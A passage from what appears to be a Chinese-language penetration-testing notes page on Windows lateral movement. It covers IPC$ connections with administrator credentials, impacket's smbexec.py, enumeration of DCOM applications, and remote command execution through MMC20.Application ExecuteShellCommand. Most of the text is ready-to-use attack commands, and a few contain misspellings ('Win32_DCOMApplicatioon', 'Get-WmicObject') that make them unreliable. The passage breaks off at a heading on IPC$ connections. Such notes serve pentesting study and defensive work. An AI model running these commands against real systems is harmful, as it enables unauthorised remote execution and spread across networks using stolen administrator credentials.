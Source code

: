 将 `execserver.exe` 上传到到目标系统的 `C:\Windows\` 目录下，解除 `UAC` 对命令的限制。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```cmd<br>net use \\IP "password" /user:pentest\administrator<br>test.exe IP administrator password whoami c$<br>``` |

### [](#impacket-%E5%B7%A5%E5%85%B7%E5%8C%85%E4%B8%AD%E7%9A%84-smbexecpy)impacket 工具包中的 smbexec.py

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>smbexec.py penteer/administrator:password\@IP<br>``` |

## [](#dcom-%E5%9C%A8%E8%BF%9C%E7%A8%8B%E7%B3%BB%E7%BB%9F%E4%B8%AD%E7%9A%84%E4%BD%BF%E7%94%A8)DCOM 在远程系统中的使用

### [](#%E9%80%9A%E8%BF%87%E6%9C%AC%E5%9C%B0-dcom-%E6%89%A7%E8%A1%8C%E5%91%BD%E4%BB%A4)通过本地 DCOM 执行命令

#### [](#%E8%8E%B7%E5%8F%96-dcom-%E7%A8%8B%E5%BA%8F%E5%88%97%E8%A1%A8)获取 DCOM 程序列表

windows server 2012 及以上

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>Get-CimInstance Win32_DCOMApplicatioon<br>``` |

Windows 7, Windows Server 2008

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>Get-WmicObject -Namespace ROOT\CIMV2 -Class Win32_DCOMApplication<br>``` |

#### [](#%E4%BD%BF%E7%94%A8-dcom-%E6%89%A7%E8%A1%8C%E4%BB%BB%E6%84%8F%E5%91%BD%E4%BB%A4)使用 DCOM 执行任意命令

本地启动一个管理员权限的 powershell

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>[System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","127.0.0.1")).Document.ActiveView.ExecuteShellCommand("cmd.exe","0","/c calc.exe","Minimzed")<br>``` |

### [](#%E4%BD%BF%E7%94%A8-dcom-%E5%9C%A8%E8%BF%9C%E7%A8%8B%E6%9C%BA%E5%99%A8%E4%B8%8A%E6%89%A7%E8%A1%8C%E5%91%BD%E4%BB%A4)使用 DCOM 在远程机器上执行命令

远程连接时必须使用具有本地管理员权限的账号

#### [](#%E4%BD%BF%E7%94%A8-ipc-%E8%BF%9E%E6%8E%A5%E8%BF%9C%E7%A8%8B%E8%AE%A1%E7%AE%97%E6%9C%BA)使用 IPC$ 连接远程计算机
